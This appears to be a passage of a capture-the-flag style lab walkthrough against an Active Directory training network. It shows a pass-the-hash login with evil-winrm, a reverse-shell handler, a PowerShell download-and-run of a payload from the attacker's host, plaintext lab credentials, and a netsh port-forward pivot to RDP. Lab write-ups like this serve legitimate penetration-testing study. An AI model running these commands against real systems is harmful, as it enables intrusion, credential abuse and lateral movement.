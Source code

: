 > The PASSWORD SAM ATTACK provided the NTLM hash for domain administrator but not password.

## Pass the Hash  

>Create evil-winrm session with the hash of administrator.

```
evil-winrm -i 10.129.123.193 -u Administrator -H bdaffbfe64f1fc646a3353be1c2c3c99
```


>optional testing upload meterpreter shell payload exe.  

```
sudo msfconsole

msf6 exploit(multi/handler) > set payload payload/windows/shell/reverse_tcp
```

>Msfvenom created the exe payload and upload with powershell on target. Execute to get meterpreter shell.  

```
(new-object net.webclient).downloadfile('http://10.10.15.163/exploit1337.exe', 'C:\tools\exploit1337.exe')

./exploit1337.exe
```

>Submit the contents of the flag.txt file on the Administrator desktop on MS01 objective.  

```
ping MS01

MS01.INLANEFREIGHT.LOCAL [172.16.6.50]
```  

>The Establishing of WinRM Session from Windows and powershell runas ,failed.  

```
$password = ConvertTo-SecureString "lucky7" -AsPlainText -Force
$cred = new-object System.Management.Automation.PSCredential ("INLANEFREIGHT\svc_sql", $password)
Enter-PSSession -ComputerName MS01 -Credential $cred
```

## Port Forwarding Tunnel  

>Tunnel, port forward from target to kali, and redirect to the target MS01.

```
netsh.exe interface portproxy add v4tov4 listenport=8080 listenaddress=10.129.123.193 connectport=3389 connectaddress=172.16.6.50
```

>On kali make remote desktop connection to the port `8080` that is forwarded with `netsh.exe` to port `3389` of remote second target.  

```
xfreerdp /v:10.129.123.193:8080 /u:svc_sql /p:lucky7 /d:INLANEFREIGHT.LOCAL /dynamic-resolution /drive:kali-drive,/home/kali/Downloads/htb/academy/ActiveDirectory
```

